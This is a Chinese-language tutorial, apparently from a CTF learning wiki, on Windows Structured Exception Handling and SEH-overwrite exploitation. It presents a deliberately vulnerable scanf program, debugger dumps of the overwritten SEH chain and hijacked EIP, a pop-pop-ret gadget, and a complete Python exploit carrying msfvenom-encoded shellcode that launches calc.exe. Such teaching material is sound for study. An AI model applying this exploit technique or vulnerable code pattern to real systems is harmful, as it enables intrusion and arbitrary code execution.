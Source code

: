 # SEH(Structured Exception Handling)
## Instruction
结构化异常处理（SEH）是一种Windows机制，用于一致地处理硬件和软件异常。该结构通常表示为try / except或try / catch代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述__try / __ except构造）或由操作系统本身实现。由于错误的类型很多（除以零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由Windows SEH通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段(* Next)是指向SEH链中下一个_EXCEPTION_REGISTRATION_RECORD的指针。换句话说，可以使用*Next从上到下浏览SEH链。第二个字段(Handler)是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向_EXCEPTION_RECORD结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。
![SEH_Chain](./figure/SEH_Chain.jpg)

## 利用SEH
在SEH下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码如下(使用VS2017命令行编译):
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链如下:
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间如下:
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链如下:
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常:
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器如下:
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
### SEH的常用利用方式
使用VC++6.0编译

EIP被控制后的栈空间如下:
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的SEH的结构处，当程序未开启DEP时，可以通过POP+POP+RET的方式，执行到ShellCode上。寻找一个gadget:(x32dbg->右击->搜索->所有模块->命令，或者其他方法寻找)
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP:
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

